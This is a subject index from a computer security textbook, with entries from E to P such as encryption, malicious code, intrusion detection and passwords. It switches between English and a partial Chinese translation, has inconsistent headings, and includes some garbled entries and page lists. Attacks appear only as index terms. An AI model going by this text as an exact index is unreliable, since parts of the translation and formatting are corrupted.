
**Election, margin of victory**, 838

**Electrical use**, 817

**Electronic commerce**, protection of goods in, 721

**Electronic Communications Privacy Act, U.S.**, 620, 739

**Electronic publishing**, compensation for, 721

**Electronic voting**, 835

**Element integrity, database**, 507, **508**, 513

**Element, database**, 502

**Elliptic curve cryptosystem (ECC)**, 439, 802, 804, 806

##### Email

**Email**, 607

- accuracy of headers, 273
- address, disposable, 634
- alias with, 632
- authentication, 39
- deceptive, 740
- disappearing, 635
- exposed content of, 632
- filtering, 560
- forged, 267
- forwarding of, 632
- header data, 273
- interception of, 633
- monitoring of, 633
- `PGP`, 276
- phishing, 274
- `S/MIME`, 277
- security of, 632
- spam, 740
- spear phishing, 274

**Emanation, electromagnetic**, 693

**Embedded device**, 4

**Emergency alert system**, 1–2

**Employee rights**, 725

**Employer rights**, 725, 754

**Employment contract**, 725, 727

- non-compete clause, 728

**Encapsulated Security Payload**, in `IPsec`, 445

**Encapsulation**, 204

- by layering, 311
- of software, 206

**Encipherment**, 87

**Encoding**, 87

**Encrypted password**, 46

**Encrypted virus**, 194

##### Encryption

**Encryption**, 86, 87


- algorithm design, 433
- asymmetric, **89**, 93, 795
- block, **93**
- breaking, 90, 91
- chaining, 363
- end-to-end, **435**, 437, 438
- exhaustive key search, 395
- for continuous authentication, 245
- for privacy, 597
- in network, 360, 363
- in the cloud, 561
- in wireless network, 383
- initialization vector collision, 389
- key, 88, 126, 562
- key length, 388
- key management, 446
- key, private, 126
- keyed, 88
- keyless, 89
- link, **433**, 437
- non-static key, 392
- protection using, 433
- speed of, 126
- static key, 388
- stream, **93**
- symmetric, **88**, 92, 779, 786
- TKIP, 393
- weak, 388

*See also* `AES`, `DES`, `RC2`, `RC4`, `RC5`, `RSA`

**End-to-end encryption**, **435**, 437, 438

**Enforcement**, of integrity, 11

**Engineering, social**, *see* 社会工程学

**Enigma machine**, 771, 774

**Entry point, secret**, 27, 158. *See also* Backdoor

**Equipment failure**, 420

**Equivalence, of programs**, 189, 219

**Erasing, sensitive data**, 692

##### Error

**Error**

- correction, 11
- detection, 11
- in data, 608, 617
- in encryption, 778
- inadvertent, 14
- nonmalicious, 133
- off-by-one, 159
- program, 132
- unintentional, 6

**Error correction code**, 516. *See also* Error detection code

**Error detection code**, **109**, 111, 251, 516

**Escrow, encryption key**, 805

**ESP (Encapsulated Security Payload)**, *see* Encapsulated Security Payload

**Espionage**, 171, 668, 738

**Estimation technique**, 676

**Estimation, Delphi method**, 678

**Estonia**, 18, 2, 391, 396, 641, 838, 842, 843, 846

**Ethical hacking**, *see* 渗透测试

**Ethical system**, 745

##### Ethics

**Ethics**, 744

- analysis, 746
- and religion, 746
- consequence-based, 748

基于后果的, 749

行动语境, 753

义务论, 749

利己主义, 748

公平分享, 753

内在善, 749

隐私的, 752

凌驾原则, 748

多元论, 746

隐私与, 752

宗教与, 746

规则义务论, 749

目的论, 748

为立场辩护, 748

做出合理选择, 748

功利主义, 749

易变性, 746

与法律的对比, 744

欧拉托 `ient` 函数, 797

欧洲, 欧洲委员会, 603

欧洲隐私指令, **603–604**, 605, 849

欧洲联盟, 596, 603

数据泄露法, 609

偶校验, 111

证据,

真实性, 735

保管链, 735

计算机输出作为, 734

事件, 664

证据规则, 734

精确披露, 519

交换, 密钥, 104

访问的排他性, 11

可执行代码, 隐藏, 192

执行程序, 操作系统, 280, **285**

渗出, 敏感数据, 474, 845

穷举攻击, 密码, 48

穷举密钥搜索, 395

存在性,

披露, 520

数据的, 9

预期损失, 678

实验, 知情同意, 763

利用, 漏洞, 419

出口管制, 密码学, 562, 792, 793, 794, 805

暴露, 风险, *参见* 风险暴露

可扩展认证协议 (`EAP`), 393

外部性, 834

伪造, 87, 107

防空信号, 844

资产, 8

加密数据, 785

网络数据, 361

Facebook, 526, 594, 635, 696, 762

人脸识别, 用于认证, 55

因式分解, 在加密中, 103, 795, 797

失效模式与影响分析, 673

故障报告, 729

故障, 2

业务, 658

组件, 420

组件, 在网络中, 368

硬件, 6, 368, 421, 659

程序, 132

软件, 6, 728, 816

系统, 74

传输, 420

公平选举, 836, 837

公平信息实践, 596

合理使用, 706

公平性, 11, 281

伪造邮件, 267

假

接受, *参见* 假阳性

指控, 608

警报, 824

阴性, **55**, 56, 62, 64, 488, 540

阳性, **55**, 56, 62, 64, 488, 540, 824

读取, 55

拒绝, *参见* 假阴性

Farmer, Dan 369

容错, 12

故障树分析, 673

故障, 程序, **132**, 136

形式化方法, 程序保证技术, 220

转发, 电子邮件, 632, 634

帧,

#### 索引

##### D

**数据链路**，352

##### F

**框架**，网页，258

**法国**，318，846

**欺诈**，19，22，722，757

**免费公共 WiFi**，392

**频率**

- 分析，针对加密，769，793
- 分布，在密码分析中，777
- 概率，676

**前端**（数据库管理系统），502

**前端**（入侵检测系统），480

**f-Secure Corp.**，19

**完全披露**，软件缺陷的，731，760

**完全明文攻击**，700

**功能测试**，211

**功能性**，在通用准则中，328

##### G

**Gasser, Morrie**，314

**网关**，应用代理，*参见* 应用代理防火墙

**Geer, Daniel**，209，210

**基因多样性**，程序环境特征，209

**地理多样性**，558

**地理**，与网络战，850

**地理标签**，528

**德国**，107，318，431，668，771

**Get_root 漏洞利用**，291

**Ghostery**，623

**Gong, Li**，295

**Gonzales, Albert**，19，391

**善**，最大多数人的最大幸福，762

**优良性**，程序特征，218

**Google**，818，820

- docs，697
- Street View 项目，378

**GOTO Fail 错误**，213

**政府数据使用**，607

**优雅降级**，12

**Graham, Scott**，72，292

**格雷姆-里奇-比利雷法案**，598，739

**Grandin, Temple**，17

**粒度**

- 数据库，512
- 在大数据中，545
- 访问控制的，**74**，75，287，297

**大瀑布城，蒙大拿州**，1

**中国防火长城**，464

**希腊**，356

**GrIDSure 认证系统**，52

**组**，访问控制，80

**卫士防火墙**，463

**卫士**，人工，680，690

##### H

**Hachette**，631

**黑客**，15，18，19，759 *另见* 恶意代码攻击

**黑客攻击**，黑帽，759

**黑客攻击**，白帽，759

**Hadoop**，542

- 匿名化，545
- 并发性，543
- DataNode，543
- Map-Reduce，543
- NameNode，543
- 隐私保护，544
- 冗余，543
- 共享，543
- 安全模式，548
- 受信用户，543

**Halme, Larry**，474

**停机问题**，218，219

**海明码**，799

**手部几何**，用于认证，54

**困难问题**，密码学的，92

**硬件**

- 作为资产，3，671
- 故障，6，420，398，421，772
- 接口，282
- 丢失，691
- 恶意，845
- 修改，845

**危害**，6，13，23，28

- 原因，22
- 来自缓冲区溢出，138
- 来自计算机攻击，**21–25**
- 来自恶意代码，176，179
- 来自漏洞搜索，762
- 可能性，22
- 限制，845
- 恶意，14
- 度量，14
- 潜在，764
- 严重性，22
- 停止，845
- 对资产，5，8
- 类型，14

**哈希码**，109，**112**，116，125，428，799

**哈希函数**，*参见* 哈希码

**草率**，在错误分析中，816

**危害分析**，672

**危害与可操作性研究**，673

**首部**，数据包，458

**医疗数据**，739

**堆**，**147**

**堆**，内存，136，139

**Hellman, Martin**，96，98，101，791

**启发式入侵检测系统**，476

**隐藏**

- 地址，303
- 恶意代码，192

**层次化设计**，311

**劫持攻击**，242

**HIPAA**，*参见* 美国健康保险流通与责任法案

**Hoare, Anthony (C.A.R.)**，149

**骗局**，2，176

**Honan, Mat**，559

**蜜罐**，**295**，668

**挂钩**，到操作系统，**288**，337，465

**跳**，413

**主机扫描**，566

**基于主机的防火墙**，*参见* 个人防火墙

**基于主机的入侵检测系统 (`HIDS`)**，476，480

**敌意移动代理**，170

**热站点**，灾难恢复，698

**热点**，无线，382

**HTTPS (`HTTP Secure`) 协议**，*参见* SSL

**人为错误**，在加密中，771

**人类受试者**，762

**人类**，来自人类的威胁，13–14

**人机交互 (`HCI`)**，654

**混合云**，553，555

**虚拟机监视器**，**292**

**Hyppönen, Mikko**，19

##### I

**IaaS (`基础设施即服务`)**，552，558，579，580

**IBM Corp.**，95，97，290，779，788，789

**ICD**，816，817

**冰岛**，613

**标识与认证**，60，61

#### 标识

**38**, 243, 610, 617, 815, 816

- 仅在必要时，603
- 唯一，610
- 对比 认证，38
- 自愿，638
- 弱，820

#### 身份

**38**, 122

- 卡，用于认证，66
- 文档，612
- 组，611
- 关联，606
- 管理，云，568
- 管理，联邦，*参见* 联邦身份管理
- 多重，606
- 非唯一，611
- 确认记录，49
- 盗窃，609
- 唯一性，606

#### `IDS` (入侵检测系统)

*参见* 入侵检测系统

#### `IEEE` (电气和电子工程师学会)

132

#### `IETF` (互联网工程任务组)

444

#### Iframe

网页，258

#### IKE

*参见* 互联网安全关联密钥管理协议密钥交换

#### ILoveYou (恶意代码)

172, 175, 179

#### ImageShield

认证系统，52

#### 免疫

针对恶意代码感染，195, 200

#### 影响

- 攻击的，831
- 计算机故障的，660
- 安全事件的，25
- 风险，668

#### 冒充

107, 474

#### 植入式心脏复律除颤器

*参见* `ICD`

#### 植入

恶意代码的，186

#### 实现弱点

针对加密的，770

#### 实现

`TCB`，322

#### 明文

消息，434

#### 事件成本

828

#### 事件响应

567

- 行动，662
- 协调，666
- 宣布事件，662
- 国家级，666
- 计划，662
- 事后审查，665
- 接管指挥，662
- 团队成员，665
- 团队，397, 665

#### 事件调查

828

#### 事件

安全，25

#### 中介不完整

152

#### 独立性

程序质量，204

#### 独立测试

215

#### 印度

743

#### 个人

对比 身份，611, 612

#### 电感

网络，343

#### 感染

- 恶意代码，186, 194, 430
- 传播（恶意代码），185

#### 推理引擎

入侵检测，476

#### 推理

数据库，511, 521–525

- 在数据挖掘中，537
- 在入侵检测系统中，478

#### 信息

- 作为对象，717
- 商务，720
- 成本，718
- 耗尽，718
- 披露，739
- 隐藏，软件的，204, 206
- 复制，718
- 传输，719
- 价值，719

#### 知情同意

763

#### 信息战

486

#### 基础设施

- 所有权，849, 850
- 共享，566, 580
- 虚拟，581

#### 侵权

- 版权，709
- 专利，712–713

#### 初始化向量

786, 793

#### 注入攻击

839

#### 注入

`SQL`，攻击，263

#### 输入验证

153

#### 输入

未检查的，154

#### 不安全的 `API`

566

#### 插入

在网络通信中，364

#### 内部人员

474

#### 内部威胁

357

#### 安装

- 恶意代码，186
- 程序，237
- 测试，211

#### 指令

机器，136

#### 保险

23, 669, 688, 695

#### 整数溢出

160

#### 集成漏洞评估

675

#### 集成测试

211

#### 完整性

6, **7**, 8, 117, 251, 758

- 大数据，547
- 检查，109, 112
- 代码，151, 482
- 计算，133
- 语境，602
- 数据 **10–11**, 506
- 数据库，507
- 操作系统强制执行，317
- 强制执行，11
- 竞争条件导致的故障，165
- 故障，109
- 无线网络中错误的检查，390
- 不准确的关联，608
- 不正确的形式，608
- 网络通信，366
- 保护，109
- `WPA` 中的保护，393
- 栈，151
- 投票，834
- 无线网络，381

#### 英特尔

10

#### 知识产权

705

- 作为资产，3

#### 意图

两阶段更新，514

#### 截获

87, 236, 808, 845

- 防空信号，844
- 资产，**8**
- 认证数据，243
- 加密密钥，105, 107
- 加密，91
- 互联网，635
- 合法，355
- 网络，354
- 网络，360
- 起搏器信号，816
- 个人数据，820
- 信号，344
- `WiFi` 通信，364, 391
- `WiFi`，364

#### 接口设计

654

#### 接口

易用性，840

#### 内部入侵检测系统

480

##### 互联网

- 治理，419
- 国际性质，741
- 使用进行支付，621
- 隐私与，619
- 站点注册，622
- 用户 `ID`，622

#### 互联网接入

免费，*参见* 公共热点

#### 物联网

814

#### Internet Security Association Key Management Protocol Key Exchange (`IKE`)

446, 447

#### Internet Service Provider

*see* `ISP`

#### Internet Society

124

#### Internet-enabled product

814

#### Interpreted language

189

#### Interpreter

189

#### Interprocess communication

281, 320

#### Interruption

##### access

849


##### network communication

366

##### of asset

**8**

#### Intrusion Detection System (IDS)

474

##### anomaly-based

476

##### false alarm

824

##### front-end

480

##### heuristic

476

##### host-based (HIDS)

476, 480

##### inference engine

476

##### internal

480

##### model-based

478

##### network-based (NIDS)

476, 480

##### response

483

##### signature-based

476

##### situation assessment

488

##### state-based

478

##### stateful protocol analysis

479

##### stealth mode

487

#### Intrusion Prevention System (IPS)

474, 482

#### Intrusion, system

668

#### Invention, patent for

711

#### Inverse

##### of a function

112

##### of encryption

103

#### Investigation, security

426

#### iOS (Apple operating system)

818

#### IP fragmentation attack

407

#### IPS (Intrusion Prevention System)

*see* Intrusion Prevention System

#### IPsec (IP security protocol suite)

444

##### authentication header

444

##### security association in

444

#### IPv4

444

#### IPv6

444

#### Iran

368, 444, 843, 847

#### ISAKMP (Internet Security Association Key Management Protocol)

*see* Internet Security Association Key Management Protocol

#### ISO 7489-2

7

#### Isolation

204

##### in operating system design

311

##### malicious code countermeasure

195

##### of potential malicious code

197

#### ISP (Internet Service Provider)

19, 425, 633

#### Israel

843, 844, 845

#### Iteration, in DES

96

#### J.P. Morgan Chase

16

#### Japan

741, 772

#### Jaschen, Sven

430

#### Java script attack

262

#### Java, sandbox in

294

#### Jet Blue

601

#### JihadJane

20

#### Join query, database

505

#### Join, in big data

547

#### Justice, Department of

*see* U.S. Department of Justice

#### Justification, with risk analysis

684

#### Kahn, David

90, 771, 774

#### Kahneman, Daniel

25

#### Karger, Paul

172, 219, 314

#### Kaspersky Labs (security research firm)

169

#### Keccak

801

#### Kerberos, in big data application

548

#### Kerckhoffs, Auguste

227

#### Kernel

##### operating system

284, `312`, 334

##### security

*see* Security kernel

#### Kernell, David

39

#### Key

##### asymmetric

796

##### change

771

##### cryptographic

96, 103, 777

##### database

512, 621

##### deduction, against encryption

770

##### derivation functions

562

##### distribution

93, 124

##### encryption

`88`, 789

##### encryption, sharing

92

##### escrow, encryption

805

##### exchange

104

##### exchange, Diffie–Hellman

446

##### exchange, with asymmetric cryptography

105, 107

##### for RC4

793, 794

##### in big data

547

##### length

96, 97, 109, 792, 805

##### length, in AES

791

##### management, encryption

93, 433, 446

##### physical, security properties of

184

##### recovery

805

##### search, exhaustive

395

#### Keys (cryptographic), proliferation of

102

#### Keystroke logger

236, 442, 628

#### Kill switch

845, 848

#### Known plaintext attack

770

#### Koobface, botnet

426

#### Korea, victim of phishing attack

275

#### Krebs, Brian

159

#### l0pht computer group

139–140

#### La Padula, Leonard

13

#### LAN (Local Area Network)

343

#### Landau, Susan

645

#### Language

##### interpreted

189

##### programming

150

##### safe

149

#### Laptop, loss of

691

#### Lastpass

564

#### Law

##### as security protection

426

##### civil

722

##### conflict between

604

##### contract

722

##### court decisions

723

##### criminal

722

##### data breach

609

##### E.U. Data Protection

*see* European Privacy Directive

##### security control

426

##### tort

722

##### versus ethics

744

#### Layered protection

471

#### Layering

310

#### Leakage, data

474, 620

#### Least common mechanism, design principle

217, 317

#### Least privilege

73, 216, 218, 316, 358

#### Legal

##### action

485

##### countermeasure

426

##### issue, incident

664

##### protection

703

#### Leverage, risk

669

#### Leveson, Nancy

815

#### Levy, Elias

145

#### License, software

727

#### Likelihood

##### of event

668

##### of exploitation

675

##### of harm

22

##### of security incident

25

#### Limitation on data collection

596

#### Limitations of testing

215

#### 索引

##### L

**有限权限**，317。*另请参阅* 最小权限

**有限响应抑制**，532

**链路加密**，`433`，437，447

**关联**，个人数据，627

**Linux 操作系统**，291

**列表**，访问控制，*参见* 访问控制列表

**Litchfield, David**，134，174，732

**LMS (学习管理系统)**，570

**负载均衡**，431，489，492

**本地数据**，141

**位置感知**，820

**锁**，物理，680，690

**日志分析** *参见* SIEM

**日志数据**，*参见* 系统日志

**日志**，访问，*参见* 访问日志

**日志**，审计，*参见* 审计日志

**对数**，802

**记录器**，击键，236，628

**逻辑炸弹**，170

**逻辑完整性**，数据库，507

**查找**，DNS，409

**损失**，5

- 数据，695

- 预期，678

- 来自安全事件，668

- 电力，688

- 服务，366

**Lucifer**，加密算法，780，788，789

**Lyon, Barrett**，425

##### M

**MAC (介质访问控制)**，343，351，377

**MAC 地址**，378，380

- 更改，385

- 欺骗，394

**MAC 头部**，WiFi，379

**Mach**，302

**宏**，189

**宏病毒**，10

**黑手党**，769

**磁性介质**，销毁，692

**磁剩磁**，325

**维护**，软件，205

**故障**，设备，815

**恶意代码**，166–196，`167`

- 解决故障，408

- 广告软件，170

- Alureon，334，336

- 杀毒检测器（程序），191

- 追加型病毒，181

- 附件，178

- 攻击工具包，419，424

- 后门，170

- Bagle，430

- 引导扇区病毒，187

- 僵尸程序，170

- 浏览器劫持器，170

- Code Red，172，175，179，182，209，731

- 隐藏，178，189

- Conficker，174，179，182，428

- 破坏性，176

- 逃避检测，191

- 检测，189

- 反汇编，201

- DNS 欺骗，409

- 投放器，170

- 回显-chargen，404

- 加密型病毒，194

- 加密，194

- 指纹，192，198，200

- 泛洪，403，407

- 取证分析，202

- 危害，176

- 劫持器，629

- 历史，172

- 敌意移动代理，170

- ILoveYou，172，175，179

- 免疫，195，200

- 植入，186，760

- 感染，194

- 隔离，作为对策，195

- 击键记录器，236

- 逻辑炸弹，170

- 恶意软件检测器（程序），191

- 中间人浏览器，234

- Melissa，172，175

- 内存驻留型病毒，188

- 移动代理，430

- 移动代理，敌意，170

- Morris 蠕虫，172，175，209

- 多部分病毒，178

- MyDoom，430

- NIMDA，172

- 模式匹配检测，192，198，200

- 模式识别，192

- 死亡之 Ping，404

- 多态，193

- 预防，197

- 传播，180

- 兔子程序，170

- 远程访问木马 (RAT)，170

- 替换型病毒，182

- Rootkit，170，329，334，336

- Sasser，431

- 骗钱软件，170，195

- 脚本小子，196

- 分离作为对策，195

- 会话劫持，415

- 签名，通过...识别，192，198，200

- Slammer，172，175

- Smurf，404

- SoBig，172，175

- 来源，845

- 间谍软件，170，628

- 隐身，189，190

- 隐写术和，192

- Stuxnet，174，175，368，843

- SYN 泛洪，405

- TDL-3，334

- Teardrop，407

- TFN，424

- TFN2K，424

- 定时炸弹，170

- 工具，170

- 工具包，170，196，336

- 传输，180

- 陷阱门，170

- 部落洪水网络，424

- Trin00，424

- 木马，169

- 用户在中间，237

- 病毒，`167`

- 量，196

- Waladec，429

- 蠕虫，168

- 零日攻击，172，`419`

- Zeus，245

- 僵尸主机，170

**恶意威胁**，14

**恶意 Web 活动**

- 点击劫持，256

- 跨站脚本，261

- 点点斜杠，264

- 驱动式下载，258

- 服务器端包含，265

- SQL 注入攻击，263

- 网站篡改，246

#### 恶意软件

10, 166–196, `167`. *另见* 恶意代码

##### Android 手机

819

##### 检测器（程序）

191

##### 扫描器

465

##### 智能手机

818

##### 工具包

196

#### 中间人

460

#### 管理

75

##### 加密密钥

93

###### 网络

489

###### 风险

*见*, 风险管理

###### 安全

657

#### 管理器

657

#### 中间人浏览器攻击

234, 442

#### 中间人攻击

106, 409, 394, 840

#### 中间人移动攻击

245

#### 多对一函数

110

#### Map-Reduce

##### 在 Hadoop 中

543

#### Mash

##### 在加密中

792

#### 伪装

432

#### 矩阵

##### 访问控制

*见* 访问控制矩阵

#### Mayfield, Terry

10–11

#### McAfee（安全公司）

19

##### MD4

428

##### MD5

800

##### MD6

429

#### 均值推断

##### 数据库

523

#### 度量

##### 危害

14

###### 安全

825

#### 机制

##### 访问控制

76

###### 安全

75

#### 中位数推断

##### 数据库

523

#### 调解

##### 完全

154

##### 不完全

152, 155

#### 医疗设备

815, 820

#### 医疗记录

613, 638, 758

#### 媒体访问控制 (MAC)

*见* MAC

#### Melissa

172, 175

#### 内存分配

136

#### 内存管理

#### 分页

306

##### 分段

303

##### 虚拟内存

303

#### 内存保护

284, 297, 320, 321

##### 基址/界限

298

##### 界限寄存器

297

#### 分页

306, 307

##### 分段

303

##### 标记

301

##### 虚拟内存

303

#### 内存

##### 系统空间

138

###### 驻留型病毒

188

#### 商家

##### 互联网

630

#### Merkle, Ralph

96, 121

#### 消息摘要

109, 112, 125, 799

##### MD4

428, 800

##### MD5

800

##### MD6

429, 800

##### SHA

800

#### 消息

##### 保护

434

#### 元数据

529

#### 方法

##### 攻击

26

#### 方法-机会-动机

`26–28`, 837

#### 微内核

289

#### 显微镜和镊子

202, 735

#### Microsoft

222, 818

#### Microsoft 可信计算计划

326

#### 微波信号

346

#### 最小性

212

#### 最小化

##### 数据

##### 为隐私

608


#### 错误识别

815

#### 导弹攻击

844

#### 使命蔓延

608

#### 错误

##### 在数据挖掘中

538

#### 滥用

##### 系统

74

#### 缓解

###### 攻击对策

28

#### Mitnick, Kevin

17, 18

#### Mitre 公司

14

#### Mix

##### 在加密中

792

#### 列混淆

##### 在 AES 中

790

#### Mixmaster 重发器

634

#### Mixter（德国黑客）

18

#### 移动代理

##### 敌意

170, 430

#### 移动电话

4, 818

#### 模式

##### 访问

9, 72

#### 基于模型的入侵检测系统

478

#### 修改

87

##### 资产

7, `8`

##### 代码

819

##### 数据

11, 529

###### 网络

361

##### 程序文件

177

##### 防护

110, 113

###### 敏感数据

820

#### 模块化

##### 在程序设计中

203, 204

##### 在操作系统设计中

312

##### 在操作系统实现中

322

#### 洗钱

19

#### 监视器

###### 操作系统

285

##### 参考

*见* 参考监视器

##### 虚拟机

292

#### 监控

474, 483, 484

##### 与隐私

620

##### 植入式医疗设备

816

##### 实时

546

###### 安全

475

#### 摩尔定律

92

#### Morris 蠕虫

172, 175, 179, 209

#### Morris, Robert T., Jr.

18, 172, 179

#### Morris, Robert T., Sr.

43, 172, 417

#### 动机

##### 攻击者的

16, 19, 773, 837

#### 动机

18, 19, `26`, 816

#### Mudge

*见* Zatko, Peter

#### Mulligan, Deirdre

605

#### Multics

80, 85, 216, 219, 290, 307, 326

#### 多因素认证

70

#### 多部分病毒

178

#### 多重发件人

634

#### 多路复用

###### 网络

345, 363

#### 多道程序设计

285

#### 多步攻击

148

#### 多任务处理

283

#### 谋杀

##### 通过计算机

816

#### 音乐共享服务

629

#### 相互认证

561

#### 相互怀疑

##### 软件特性

207

#### MyDoom

430

#### 名称服务器

414, 419

#### 名称

##### 域

444

#### `named` (名称守护进程)

414

#### NameNode

##### 在 Hadoop 中

543

#### Napster

707

#### NAT

*见* 网络地址转换

#### 美国国家标准局

*见* 美国国家标准局

#### 美国国家标准与技术研究院

*见* 美国国家标准与技术研究院

#### 索引

##### N

**国家安全局 (NSA)**，*参见* 美国国家安全局

**北约**，845，849

**自然灾害**，6，13，22，686

- 建筑物倒塌，687
- 火灾，687
- 洪水，686
- 水灾，686
- 极端天气事件，687

**NBS (国家标准局)**，*参见* 美国国家标准局

**需知原则**，739

**负面披露**，520

**荷兰**，318，641

**NetSky**，430

**网络**，342

- 客户端-服务器，18
- 通信，机密，443
- 数据丢失防护，474
- 设计，401
- 网络中的截获，343–346
- 监控，560
- 渗透，844
- 端口扫描，456
- 流量，401
- 传输介质，343

**网络地址转换 (NAT)**，472

**网络攻击**

- 组件故障，368
- 拒绝服务，367
- 插入，364
- 截获，354，355
- 服务中断，366
- 端口扫描，369
- 重放，364
- 路由，367
- 排序，363
- 替换，363

**网络接口卡 (NIC)**，351，376，380

**网络管理**，489

- 寻址，490
- 带宽分配，490
- 黑名单，490
- 容量规划，489
- 负载均衡，489
- 速率限制，490
- 拒绝连接，490
- 黑洞路由，490
- 调优，490

**基于网络的入侵检测系统 (NIDS)**，476，480

**网络存储**，用于备份，697

**Neumann, Peter**，311

**NIC (网络接口卡)**，351，376，380

**NIMDA**，172

**Nissenbaum, Helen**，601

**NIST (国家标准技术研究院)**，*参见* 美国国家标准技术研究院

**Nixon, Richard**，596

**Nmap**，扫描工具，369

**噪声**

- 用于隐私保护，545
- 通信中的，109

**一次性数 (Nonce)**，108，278，793

**竞业禁止条款**，雇佣合同，728

**非恶意威胁**，14，420

**非随机攻击**，*参见* 定向攻击

**不可否认性**，7，115

**无后门数字**，806

**通知**，隐私，600

**通报**，数据泄露的，609

**新颖性**，专利要求，712，713

**NSA (国家安全局)**，*参见* 美国国家安全局

**编号**，序列，419

##### O

**OAuth**，573

- 访问令牌，574
- 授权服务器，574
- 客户端密钥，575
- 客户端，574
- 刷新令牌，576
- 请求令牌，575
- 资源所有者，574
- 资源服务器，574
- 令牌，*参见* OAuth 访问令牌

**对象**，72

- 访问控制，284
- 数据作为，9
- 名称，77
- 重用，325

**隐秘性**，通过隐秘实现安全 (by)，185，226，356，836

**奇校验**，111

**差一错误**，159

**偏移量**，页，306

**现成**，3

**OIDC (OpenID Connect)**，577

**一次性密码本**，774，807

**一次性密码**，52，67，244

**单向哈希函数**，799

**洋葱路由**，443，635

**在线档案**，627

**开放设计**，设计原则，217，315

**开放模式**，无线网络，384

**开放系统互连 (OSI) 模型**，*参见* OSI

**公开性**，私人数据收集的，597

**操作系统**，136，279–340，513

- 抽象，289
- Apple iOS，302
- Apple Mac OS，291
- 审计，292
- 认证，283
- 引导，280
- 设计复杂性，291
- 复杂性，187，309
- 并发，286
- 正确性，314
- DEC VAX，314
- 设计，308，820
- 设备控制，283
- 设备驱动程序，288
- 域，286
- DOS，302
- 用于智能手机，818
- 分层设计，311
- 历史，284
- 虚拟机监控程序，292
- 内核，284，312
- 分层设计，309
- Linux，291
- 分阶段加载，291
- Mach，302
- 监控程序，285
- 多道程序设计，285
- 多任务处理，283
- 进程，286
- 资源分配，286
- Rootkit，329
- Scomp，323
- 安全内核，312
- 自我保护，290
- 设计简洁性，309
- 单用户，284
- 智能手机，818
- 启动，280
- 任务，286
- 执行线程，286
- 可信系统，316
- Unix，291
- 虚拟化，292
- Windows，291，302

**机会**，攻击的，26

**光纤电缆**，从...截获，346

**自愿加入僵尸网络**，430

**橙皮书**，*参见* 可信计算机系统评价标准

**有组织犯罪**，15，19，177

**原创著作**，705

**独创性**，与版权，706

#### OSI（开放系统互连）模型

350, 433, 435, 439, 455, 462

#### 带外通信

244

#### 溢出

##### 缓冲区

*参见* 缓冲区溢出

##### 数据

149

##### 整数

160

##### 参数

140

##### 段

306

##### 表

143

#### 过载，拒绝服务

11, 399

#### 监管，数据收集的

603

#### 所有权，数据的

8, 594, 596

#### PaaS（平台即服务）

552, 557

#### 起搏器

4, 816

#### 数据包

`351`, 415, 458, 477

#### 数据包过滤网关

456, 461, 467

#### 数据包嗅探器

343

#### 页，偏移量

306

#### 页，大小

307

#### 中间页攻击

237

#### 分页

`306`

- 与分段结合，307
- 内存保护，307

#### 帕林，萨拉

39, 52

#### 参数溢出

140

#### 参数，不匹配

162

#### 奇偶校验

`110`

- 校验，109
- 偶校验，111
- 奇校验，111

#### 帕克，唐

18

#### 部分明文攻击

770

#### 旅客姓名记录（PNR）

604

#### 口令

`40–51`, 266, 568, 610, 657, 738, 794, 844

- 攻击，42
- 选择，48
- 常见，45
- 隐藏，46
- 数据库，266
- 字典攻击，43
- 泄露，41
- 遗忘，42
- 猜测攻击，42–45
- 猜测，761
- 推断，41, 43
- 丢失，42
- 管理器，564
- 一次性，*参见* 一次性口令
- 重用，266
- 撤销，42
- 选择，48
- 共享，569
- 表，46
- 使用，41
- 变体，50
- 弱口令，568
- 书写，50, 51

#### 补丁

419

- 仓促，816
- 渗透和修补，*参见* 渗透和修补
- 程序，172, 184, 731, 733
- 及时性，732

#### 专利

711

- 就业与，727
- 执行，713
- 软件专利，713
- 侵权，712–713
- 无效宣告，713
- 技术许可，712
- 非显而易见性要求，712
- 新颖性要求，712
- 员工发明的，727
- RSA 的，802
- 所有权，726
- 在先发明，713
- 注册，712
- RSA 算法，802
- 现有发明检索，712
- 软件，713
- 有形发明，711

#### 路径，网络

359

#### 模式分析，针对加密

769

#### 模式，恶意代码

192, 198, 200

#### 模式匹配

- 用于入侵检测，477, 479
- 用于恶意代码，192, 198, 200

#### PayPal

621

#### PBKDF2

562, 564

#### P 盒，在 DES 中

787

#### PCI DSS（支付卡行业数据安全标准）

555

#### 对等文件共享

629, 707

#### 渗透和修补，程序保证迷思

224, 336, 733, 816

###### 渗透测试

218

#### 奔腾芯片，英特尔，浮点错误

10

#### 人员，作为资产

671

#### 性能测试

211

#### 性能，数据库

511

#### 边界

###### 网络

359

###### 安全

354, 471

#### 权限，数据访问的

596

#### 基于权限的，设计原则

217, 218, 316

#### 置换步骤，在 DES 中

96

#### 置换，在密码学中

782

#### 持久跨站脚本攻击

262

#### 持久病毒

168

#### 个人计算机，备份

696

#### 个人数据

820

#### 个人防火墙

464

#### 扰动，数据

529, 534, 617

#### Petmail

240

#### PGP

276, 633

#### 网络钓鱼

274, 635

#### 网络钓鱼攻击

- G20 峰会合作伙伴，275
- 韩国外交官，275
- RSA 公司，275
- 白宫工作人员，275

#### 电话，移动

4

#### 光子

- 枪，811
- 取向，807
- 接收，808

#### 物理访问

773

#### 物理访问，未授权

689

#### 物理连接故障

420

#### 物理完整性，数据库

507

#### 物理防护，计算机的

284

#### 物理安全

447

#### 物理安全，用于隔离

296

#### PIN，在认证中

40, 67, 244

#### 死亡之 Ping

404

#### Ping

477

#### 盗版，知识产权

707

#### 明文

`88`, 96, 103, 434

#### 明文和密文攻击

770

#### 仅明文攻击

770

#### 计划，事件响应

*参见* 事件响应计划

#### 计划，安全

*参见* 安全计划

#### 规划，应急

694

#### 点对点通信

633

#### 投毒，DNS 缓存

418

#### 偏振滤光片

808

#### 索引

##### 策略

72

##### 政治

###### 与网络战

850

##### 多态病毒

193

##### 不良编程实践

158

##### POP（邮局协议）

353, 370

###### 服务器

633

##### 弹出式广告

630

##### Porras, Phil

428

##### 端口

353, 370, 472

##### 端口扫描

###### 网络

369, 450, 456, 476

##### 邮局协议 (POP)

*参见* POP

##### 电源

###### 消耗

817

###### 故障

688

###### 尖峰

688

###### 供电

####### 不间断

688

###### 浪涌

688

##### 预防措施

22

##### 精度

###### 数据的

11, 530

###### 风险分析中的

684

##### 可预测性

###### 在 Dual-EC 中

806

##### 预测

###### 来自 RFID 传感器

639

##### 预测值

###### 在认证中

57

##### 首选关联

###### 在无线网络中

386

##### 优良隐私协议

*参见* PGP

##### 流行度

###### 在认证中

56

##### 预防

###### 攻击对策

28

##### 价格

###### 计算机对象的

833

###### 在互联网上的

631

##### *Primary Colors*（原色/电影《初选风云》）

246

